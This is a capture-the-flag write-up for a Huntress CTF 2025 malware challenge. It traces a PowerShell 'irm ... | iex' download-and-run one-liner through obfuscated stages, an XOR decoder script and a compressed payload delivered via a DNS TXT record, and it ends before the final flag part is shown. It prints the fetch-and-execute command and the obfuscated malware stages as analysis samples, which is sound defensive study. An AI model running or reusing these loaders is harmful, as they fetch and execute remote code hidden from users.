# Huntress CTF 2025 - 🐞 Lizard.

**CTF Name:** Huntress CTF 2025
**Challenge name:** 🐞 Lizard.
**Challenge prompt:**
> Erm, what the sigma?
> We saw this strange PowerShell string on one of our hosts, can you investigate and figure out what this does?

```
irm biglizardlover.com/gecko | iex
```

```
CAUTION

This is the Malware category, and as such, includes malware.

Please be sure to analyze these files within an isolated virtual machine.
```

**Challenge category:** Malware
**Challenge points:** 10

* * *

## Steps to solve

To analyse this malware, it was necessary to discover the response to the `biglizardlover.com/gecko` website:



Accessing it from the browser resulted in `250: OK, but try harder.` error code.

It did not take much time, to decide to send PowerShell's User Agent value, and discover the following:



We can see obfuscated code in the response. The easiest way to deobfuscate is to let it work... just kidding, but solution is quite similar.

I replaced `.( ([sTriNg]$vERBOsEpREfEREnCe)[1,3]+'X'-JoiN'')` with `Write-Output` and saved such modified code to the `wtf.ps1` file.

Next, I executed it in `pwsh`:



Produced output was much more pleasing, but still contained some base64-encoded payload. Decoding of that payload was rather simple - CyberChef to the rescue (again):



I saved output to the `to_deobfuscate1.ps1` and used https://github.com/bobby-tablez/Format-String-Deobfuscator to deobfuscate:



The result was not very satisfactory, but some strings already could be recovered with success, such as:

- `flagvalue = objecttest + consumerfashion + uniquerebel`
- `-ExecutionPolicy Bypass -WindowStyle Hidden -Command {1}irm biglizardlover.com/gecko {0} iex{1}`
- `/gila`
- `WXpBME16UmtOVGt3TWpnPQ==`

The last one was double base64 encoded string, which translates to: `c0434d59028`.

To accompany above deobfuscation, I also asked AI to do so, and it worked surprisingly well!:



From this response, we can deduct, that middle part of the flag is previously decoded `c0434d59028`.

The first (or last) part is most likely a product of when `biglizardlover.com/gila` is accessed. So I proceed:



```powershell
$TFr1S = " )'X'+]43[EmOHSP$+]12[EMoHSp$ (&| )93]rAhc[]Gnirts[,)28]rAhc[+78]rAhc[+401]rAhc[((eCaLpER.)'|',)58]rAhc[+401]rAhc[+37]rAhc[((eCaLpER.)'$',)75]rAhc[+97]rAhc[+27]rAhc[((eCaLpER.)43]rAhc[]Gnirts[,'Ywo'(eCaLpER.)')RWhRWhnIOj-RWhXRWh+]3,1[)ecnerefERPEsOBrev9OH]gniRTS'+'[( (&Uh'+'I '+'Ywo ) RWh RWh RWhsFo:ElBairavRWh METI-tEs(9OH Ywo+ )}'+')RWhd2x0RWhRoXb- _9OH (]raH'+'c[{hcaEROf UhIRWhgRWhTILps- RWhURWh TIlPS-RWhcRWh ti'+'Lp'+'S-RWh-RW'+'hTilps-RWh'+'JRWhTILPS- RWhB'+'RWhTILPS-RWhwRWhtIlpS-RWh%RWhTIlpS-RW'+'h<RWhTILPS- RWhoRWh TIlPS-RWh9'+'3-51B02<49-601B721U521g96'+'j46O321C711W56B321%99j911B39B221O121C09g92j07-67j89C99'+'g78%87'+'U78%66<701C67O52O82W46O221C51-31%61j31g'+'98<49-27<121B98%87B27U17j97g66U9W93%08g93%76-27<37W37-86W101j31j27O56%48-98g621j09%66C37%76g86g221C0C'+'31O09U66W97-56<27<27g37<86B56O47W9O31j1O01%37%76B67g46C46-66j011C0-01O3'+'1B98-4'+'9C'+'86g79W98j'+'76j27-46B88W47%59j801g0-31j56C56-27%96W49-59<27O09%66W39<31j49%49O27C87'+'j66g59<521<0j98O59<67j98W621<31-31-31B31C93B56O56B88j99%0W98%88'+'C'+'89C31C18'+'<31-4-13-6U82W1'+'B37j76g27C39<27W3'+'7B98j96j47W86%56-86U09U98g9U1<92C1B92O13W5O66g57'+'%76%001j4'+'9U59O27O98g27C46'+'B67%59-67g521j46j27W98B'+'49W48-621g32g32C211W'+'22'+'1-811<31W22-51W08-31B22%4<86U7'+'6C001B76j86j221'+'W88g57%31j98B76j86O1g46W67-59B67W521B19j39<56g31W47U76-86B59U98B49g1O46<67W59O67C521C88%31-98j76B86C1B76j66j86B98O87-8'+'01C8'+'8O31j98B76C86B5%66W57-76<001W49U5'+'9O27g98B27W46C67-59W67-521C46-27U98%49-48g621%31C56O66C66'+'j97B31U76W59B27U98j58W27O'+'31-87W86g98O67C98W49O31O87j86-56j97-88g39C31B211C4W51-77j56C56U37%3g'+'13<03-5'+'9j27<49-8'+'8O51U77g5-98-59W66%39g46'+'g001C56U56<501g811g31O68O31j221%31g49-49O67W56B87W31W87j86-56U97W88%39C31O22-49<27j87B86j19<5'+'9C27B621<39O66g59C27j98B76W001U3W27W46U86B98O76<88%721j3W46<27%98g49<48U621-31O47W76W86W49<88U'+'31B22U46B27<98O49U'+'48-621U31C47C76g86O'+'49O88O51O31U76j6'+'6<86O98g86B76U86<57C27<501O27B39g48<12'+'1-0j31%27O39j48%121g0U3'+'7<3'+'7%801B31C31B31g31<93g56j56%88'+'B99g0%98C88j89g31U18-31<27j88<76O86j98C76j66j011<48g5'+'6-9'+'8-76<27O56B86%621<31U76%66U86<9'+'8g87g801O59U66j59<59g401U0g31B37<76C27'+'U39<27C37-'+'98<96%47%86j56W86'+'C09U98<9-31'+'B27g56'+'O86j701g98-88W89<0j'+'31g48C98W59-67O39C98<49U67W27j57W48j58B67B56C67U47%9U31g98%49C27W88-29U27C721O97-27U221<0-27U07-66C19W76U001<31-31U31%31W93<51C47C39B17g3O27O78U86%76<47U66O87j27U59O98O86<88-87W49O86%97W9-37C59-67B'+'78-86B56W2j47g46%86<2<46U66%87%3C59O27<19B66-56g37W59W67B78O'+'86B56j47j86g97<'+'2j2%32j49-39U98j98<96<51-31%61C31-'+'48j98<59B67<39j'+'98%49g67<27<57<4'+'8j58-67U56g67j47O9W31-31-31O31g93C42g13<31j46W88C46%86U58-67O69g'+'0C31B82j31O46B88'+'U46U86C76O86B69W0'+'B31g46j66%37%7'+'6C67U721j0-98W27W601W31j61O31g27B78%86j76O47g66W87W27%'+'59g98g86U88<87U49'+'U86B'+'97g9C31-31-31%31W93j51-47C39W17-3W37U59C67B78g86'+'B56<51g31j521j69j401%121U32<19C76<27'+'W9C3'+'1-96j98B67O5'+'21U0<76-86U66j301-31g'+'61%31g37O76U27C39C27%37j98W96<47g86<56B86g09O98-9'+'B31O31<31%31-93%4B4U4B4W49<47C76'+'C86g59g98-621O31U48<98<59C2'+'7B39<66j59j521j37g76<67W39O58U'+'40'+'1<0%31O98j87j27<17-97U89g0U98j87j27C56U27O621B31<18j31-98%58g98'+'-31%27g39O48%121W0C31<46-66j87O3j59W27C19j66W56W37U59-67j78C86<56C47C86-97j3U02W69j711-97U86g911O76U621%321-56C56%97g221O37g701U321g31U27W46W67B99-49j76%501W0-27C19C56j66W4'+'9C27B721j5O5g47C76-86g59C98U621O52-72<27W49W67<111%46U66'+'j59W'+'7'+'01<32%32O211W98U59B27j1'+'9g76g66B011B3'+'-46j27g98B49%48C621B811C5g47W76j86B59U98<621W98W27O601U3j12C701%'+'121-021U32%32j211<47W76O86B37g66C87W76O401B3U98C58j27C121%3%46B27C98U'+'49<48O621W811W5<31B58g27W86j31<61j31C'+'09W66j97O56j27B27'+'W37C86<56O47B9B31B31-31U31C93g68j31%4C27%88j59<98%9C5U31O27<56-86U96O09RWh (]gNirTS[+ Ywo ) RWhRWh  RWhS'+'foRWh  ELBAIrav-TeS(9OHYwo'( ";  -JOIN (  vArIABlE  tfR1s  ).VaLUe[-1..- ((  vArIABlE  tfR1s  ).VaLUe.leNgTH)]|& ( ([sTriNg]$VERboSEPrEfeREnce)[1,3]+'X'-joiN'')
```

This time, to prohibit the malicious code from running, I replaced `-JOIN (  vArIABlE  tfR1s  ).VaLUe[-1..- ((  vArIABlE  tfR1s  ).VaLUe.leNgTH)]|& ( ([sTriNg]$VERboSEPrEfeREnce)[1,3]+'X'-joiN'')` fragment of the code above, with:
```
$decoded = -join ($TFr1S[-1..-($TFr1S.Length)])
$decoded | Out-File "decoded_stage1.ps1" -Encoding ascii
```

to mimic the inner workings of the code, with impact limiting factor. Next I saved the code to the `wtf2.ps1` file and executed it in `pwsh`. As a result `decoded_stage1.ps1` file was created.

I tried to logically understand `decoded_stage1.ps1` workings and came up with this python code (saved to `reproduce_deobfuscate.py`):

```python
import re
import base64

# paste the exact obfuscated string into the triple quotes
obf = r"""('owYHO9(SeT-varIABLE  hWRof'+'ShWR  hWRhWR ) owY +[STriNg]( hWR90O69U68-65<72O13U5C9%89<95j88%72C4%13j86g39C13U13-13B13B9B74O65<68C73W'+'72B72j65O79j66W90'
[TRUNCATED]
]+'99C98j76-70j29g90C121O122B93B119j99%123B65W117C123O64j'+'69g125U127B106-94<20B15-3'+'9hWR-SPlIT hWRohWR -SPLIThWR<h'+'WR-SplIThWR%hWR-SplIthWRwhWR-SPLIThWR'+'BhWR -SPLIThWRJ'+'hWR-spliTh'+'WR-hWR-S'+'pL'+'it hWRchWR-SPlIT hWRUhWR -spLIThWRghWRIhU fOREach{[c'+'Har]( HO9_ -bXoRhWR0x2dhWR)'+'}) +owY HO9(sEt-ITEM hWRvariaBlE:oFshWR hWR hWR ) owY'+' I'+'hU&( (['+'STRing]HO9verBOsEPREference)[1,3]+hWRXhWR-jOInhWRhWR)').REpLaCe('owY',[strinG][chAr]34).REpLaCe(([chAr]72+[chAr]79+[chAr]57),'$').REpLaCe(([chAr]73+[chAr]104+[chAr]85),'|').REpLaCe(([chAr]104+[chAr]87+[chAr]82),[strinG][chAr]39) |&( $pSHoME[21]+$PSHOmE[34]+'X')"""

# do the textual token replacements
deob = obf.replace('owY', '"').replace('HO9', '$').replace('IhU', '|').replace('hWR', "'")
# deob = deob.replace('HO9_', '$_').replace('-bXoR', '-bxor')

# optional normalizations
deob = re.sub(r'SeT-varIABLE', 'Set-Variable', deob, flags=re.IGNORECASE)
deob = re.sub(r'sEt-ITEM', 'Set-Item', deob, flags=re.IGNORECASE)

# print(deob)

# extract the big quoted numeric blob inside +[STriNg]( ' ... ' )
m = re.search(r"\+\[STriNg\]\(\s*'(.+?)'\s*\)", deob, flags=re.DOTALL)
if not m:
    raise SystemExit("numeric blob not found")
blob = m.group(1)

# extract all decimal numbers, and xor with 0x2d (45 decimal)
nums = re.findall(r"\d+", blob)
decoded_chars = [chr(int(n) ^ 0x2d) for n in nums]
decoded = ''.join(decoded_chars)

print("---- decoded PowerShell payload ----")
print(decoded)
print("---- end ----")

# optional decode the base64 found in $objectTest
b64 = re.search(r'\$objectTest\s*=\s*"([A-Za-z0-9+/=]+)"', decoded)
if b64:
    first = b64.group(1)
    print("objectTest:", first)
    try:
        step1 = base64.b64decode(first).decode()
        print("base64 ->", step1)
        try:
            print("second decode ->", base64.b64decode(step1).decode())
        except Exception:
            pass
    except Exception:
        pass
```

Once executed, the output was as follows:



Thanks to the decode, we got first part of the flag: `flag{7634269aea89` (where middle part `c0434d59028` was previously obtained).

To find the last part of the flag, `Re$)olve-DnsName VFdWbllVSnZibXM9.biglizardlover.com -Type txt` fragment captured my attention. I decided to follow this logic, and executed `dig VFdWbllVSnZibXM9.biglizardlover.com -t txt`:



In the response, I found TXT record containing base64 payload:

```
JiAoICRWZXJib3NlcHJlRmVyZW5DZS50T3NUcmluRygpWzEsM10rJ1gnLWpPSW4nJykgKG5lVy1vYmpFQ3QgaW8uU3RSRUFtckVhRGVyKChuZVctb2JqRUN0IFN5c3RlTS5JTy5jT01QUmVTU2lPbi5kZWZsYVRlc3RSZWFtKCBbU3lzdEVtLmlPLm1FbW9yWVN0ckVhTV0gW0NPblZFUlRdOjpGUm9NQmFzZTY0c1RyaU5HKCdqVkpkYzZwSUV" "QMHJVN2RTdDZGR0NhQVJjV3NmVUNjcUlCcG0vSWdVRDRoRWlTSUd2TWFQOHI5dnRadmE1MzJabXVtZTdqNTl6bm1LaC9hMXAvNU5mc215V1F1TGFOTUpLblZkKzdrMWZrS3ZWUm5rTzFEUWdjSnRmdGR2Tkt4cFFUZDFkMnpETWFGaWdvYVBtSnRzK1AwUklFQkJJci9KWGJ2SlVuY1BGQktna0l0dWxQaUtMS2VEVGhtMVd1RjZQK2lPZ0VLOH" "g3UWlnTUtjQVFXaEFJVXNFUndvdkpjQmRxdkljc2t4NTQrenZNTzZyVmJJVmpsUUdIcDV5a3Vnd1B3eFBrY2RiTFhQMDdKTWlnTkdnTUlvVmtZRG9CQlVaSExYYjFhOWRnVUtUYWVuK2FiNmFUU0F3cXo0OGhQMUdqbUY1dUowdzNYOGw3bUduYU0wejl0QW9kdkh3NkMybXI0Y2JjTndjWDdEOHZ5bFMwZXpEUUlmVS95VDF1cXZPSGxkQndvc" "lpHbUNIS3k4YXpxZkcwMnMrc0JsdS9oM1htenE5U2xRTURIeHZOU2ZPMmRzcFdIUzIyd3o3TGhpQzlYRkhxTllqeEVTVU1CMU5XZDRjTTZOcG04UHJmNEVLTlN0MSsvdktSS1ZacHl6eG9hL21FRGhFUDhnMllrYTQ0THQ5S2gvV3VCVTFZNE80NlAvZmVGbmo3OEJoVVhNa01JSUpiRk1JMGFRNXNSQktZRENZTzFoMHNWdGw5dkU2R1ZmZ3dH" "aWNSeUIyMnJUMkRPdXpTTlNPUFJPYUowWXVaaTZzelI2NXMvYXRyMndlOGI1N2Rod3NPZkx2OHBOek5tMjhON2FMRGVhdlh6eGRxVUxKQ2lySVNYRzFmb2NxdjFHKzh2UlRZb1FiVytxbStwVzg1WUw4UWVKU3Q0WERtYm1BaWRQSnM0eXNvSENlamJHdDdwRitiNmpUbTk3QVFyME5FZFRNTXR1Um1Qei9lT3UzeVQ4dkUvUlg2TEVQUnFNNDF" "idExQZGZXNjFRRk1uSkczVUNFZzZ0aHdzRnYvZ294NUJseWloVmhzaVdRTE5jOEFpSWxGbk1QNktCRTJIdFBsZ1hMWTNVb1RFWmxoNFFReDRyK1VCNW9CSGxwU1FpWnA5THRGVjFocVdvT0pFa0g3dXZMT1puRnQ1OHdSOHoyYkY4NTBTZ3RQOVZKWHNpRVpBa0loRVpZSi9tZGhYbVFNTmFSUXRrRnUrVEl2bElpa1BDUjIwL21UNkZheTh0am" "1VZ0VVa2h2OGhmNURlUnlGTzVTWGE3d1NyUVF2ckVIL2R1b05WQ0NtZVFwWUNMSXZYV1lhdjFtUTg4Q1lCVWlFUklqeDJySjh0UG83YkxDSkdna3dHRlR4UnJyWUlzSzZmSW5iQ0FWSW1tS0tRcS9kOEt4VTMydldOZkRva3NrMzhBJyksW1NZU1RFbS5JTy5jT21wUkVzU0lvbi5Db01wUmVTU2lvbm1vREVdOjpkRUNvbVByZVNTKSkgLCBbd" "EV4VC5lbmNPZGluZ106OmFzY0lpKSApLnJFQURUb2VORCggKSAK
```

Which decoded was:

```powershell
& ( $VerbosepreFerenCe.tOsTrinG()[1,3]+'X'-jOIn'') (neW-objECt io.StREAmrEaDer((neW-objECt SysteM.IO.cOMPReSSiOn.deflaTestReam( [SystEm.iO.mEmorYStrEaM] [COnVERT]::FRoMBase64sTriNG('jVJdc6pIEP0rU7dSt6FGCaARcWsfUCcqIBpm/IgUD4hEiSIGvMaP8r9vtZva532Zmume7j59znmKh/a1p/5NfsmyWQuLaNMJKnVd+7k1fkKvVRnkO1DQgcJtftdvNKxpQTd1d2zDMaFigoaPmJts+P0RIEBBIr/JXbvJUncPFBKgkItulPiKLKeDThm1WuF6P+iOgEK8x7QigMKcAQWhAIUsERwovJcBdqvIcskx54+zvMO6rVbIVjlQGHp5ykugwPwxPkcdbLXP07JMigNGgMIoVkYDoBBUZHLXb1a9dgUKTaen+ab6aTSAwqz48hP1GjmF5uJ0w3X8l7mGnaM0z9tAodvHw6C2mr4cbcNwcX7D8vylS0ezDQIfU/yT1uqvOHldBworZGmCHKy8azqfG02s+sBlu/h3Xmzq9SlQMDHxvNSfO2dspWHS22wz7LhiC9XFHqNYjxESUMB1NWd4cM6Npm8Prf4EKNSt1+/vKRKVZpyzxoa/mEDhEP8g2Yka44Lt9Kh/WuBU1Y4O46P/feFnj78BhUXMkMIIJbFMI0aQ5sRBKYDCYO1h0sVtl9vE6GVfgwGicRyB22rT2DOuzSNSOPROaJ0YuZi6szR65s/atr2we8b57dhwsOfLv8pNzNm28N7aLDeavXzxdqULJCirISXG1focqv1G+8vRTYoQbW+qm+pW85YL8QeJSt4XDmbmAidPJs4ysoHCejbGt7pF+b6jTm97AQr0NEdTMMtuRmPz/eOu3yT8vE/RX6LEPRqM41btLPdfW61QFMnJG3UCEg6thwsFv/gox5BlyihVhsiWQLNc8AiIlFnMP6KBE2HtPlgXLY3UoTEZlh4QQx4r+UB5oBHlpSQiZp9LtFV1hqWoOJEkH7uvLOZnFt58wR8z2bF850SgtP9VJXsiEZAkIhEZYJ/mdhXmQMNaRQtkFu+TIvlIikPCR20/mT6Fay8tjmUgEUkhv8hf5DeRyFO5SXa7wSrQQvrEH/duoNVCCmeQpYCLIvXWYav1mQ88CYBUiERIjx2rJ8tPo7bLCJGgkwGFTxRrrYIsK6fInbCAVImmKKQq/d8KxU32vWNfDoksk38A'),[SYSTEm.IO.cOmpREsSIon.CoMpReSSionmoDE]::dEComPreSS)) , [tExT.encOding]::ascIi) ).rEADToeND( )
```

It again contained base64 payload, that based on the powershell code - needed inflate operation, thus I used cyberchef and performed all necessary transformations to receive last part of the flag:


